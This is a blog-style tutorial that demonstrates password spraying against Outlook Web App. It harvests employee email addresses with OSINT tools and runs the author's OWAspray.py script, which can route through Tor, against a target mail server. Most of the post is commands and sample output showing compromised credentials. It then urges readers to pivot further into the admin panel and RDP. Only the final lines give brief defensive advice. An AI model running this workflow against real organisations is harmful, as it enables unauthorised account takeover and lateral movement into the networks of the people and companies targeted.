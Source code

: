 ```yaml
---
layout: post
title:  "Reverse brute force attack (or just Password Spraying) using OWAspray.py"
date:   2019-06-02 01:00:00 -0400
keywords: "python, OSINT, tools, owa"
comments: true
description: "How to use OWAspray.py to hack into Outlook Web App?"
---
```


Weak passwords are still a thing. I've being worried about this for a while. Weak passwords aren't new and we should pay attention to this since a malicious person can go further from a compromised account. In only 5 minutes anybody can access to a network and move laterally once inside. As a Proof of Concept I did publish a simple Python script called [OWAspray.py](https://github.com/davidtavarez/owaspray) to test the top 10 worst password we possibly could find.

First, we're going to collect some emails using [theHavester](https://github.com/laramies/theHarvester); theHarvester is a very simple, yet effective tool designed to be used in the early stages of a penetration test. Use it for open source intelligence gathering and helping to determine a company's external threat landscape on the internet. Let's install it:

```bash
$ git clone https://github.com/laramies/theHarvester.git
$ cd theHarvester
$ virtualenv -p python3 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
```

Good. Now, let's find some info:

```bash
$ python theHarvester.py -d DOMAIN -b all -l 200
...
[*] Emails found: X
----------------------
...
FIRSTNAMELASTNAME@DOMAIN
FIRSTNAMELASTNAME@DOMAIN
...
[*] Hosts found: Y
---------------------
...
mail.DOMAIN:IP
...
```

We'll see a lot of information but right now we only want to collect the emails and the URL of the Outlook Web Application. In this case we have the next pattern: `FIRSTNAME+LASTNAME@DOMAIN`. Cool, now we can go to LinkedIn or their website to get more usernames. This tool looks pretty good [linkedin2username](https://github.com/initstring/linkedin2username), you can try it; I will be (probably) writing some script for this later. Now we have the email pattern we can write a list of usernames to test.

Let's the magic begin...

## OWAspray.py

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. These attacks have become one of the favorite technique of attackers, as it has proved to be very effective for advancing through a network after having established a foothold inside. I did write a script to test this, let's try it:

```bash
$ git clone https://github.com/davidtavarez/owaspray
$ cd owaspray
$ virtualenv -p python2.7 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ python spray.py --help

usage: spray.py [-h] -t TARGET -u USERNAME_FILE -p PASSWORD_FILE
                [--tor-host TOR_HOST] [--tor-port TOR_PORT]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL of the target.
  -u USERNAME_FILE, --username_file USERNAME_FILE
                        The list of users.
  -p PASSWORD_FILE, --password_file PASSWORD_FILE
                        The list of passwords to try.
  --tor-host TOR_HOST   Tor server.
  --tor-port TOR_PORT   Tor port server.
```

Now we can confirm the URL:

```bash
$ curl -L -I https://mail.DOMAIN/
HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Content-Length: 0
Location: https://mail.DOMAIN/owa/
...

HTTP/1.1 440 Login Timeout
Content-Length: 43
Content-Type: text/html; charset=utf-8
...
Connection: close
...
```

Good. Let's hack this!

```bash
$ python spray.py -t https://mail.DOMAIN -u users.txt -p passwords.txt
[+] FIRSTNAMELASTNAME:PASSWORD
[+] FIRSTNAMELASTNAME:PASSWORD
...
```

:)

The important question is: how far can I go from here? Well, if you got an admin account, you can move to `/ecp/` and have fun; also, find some open `RDP` will be fine I guess... what else? I don't know, ***use your creativity!***

### What should we do to protect users

It's very simple: use better passwords, do not repeat passwords, enforce 2F Auth and create a max-attempt policy.
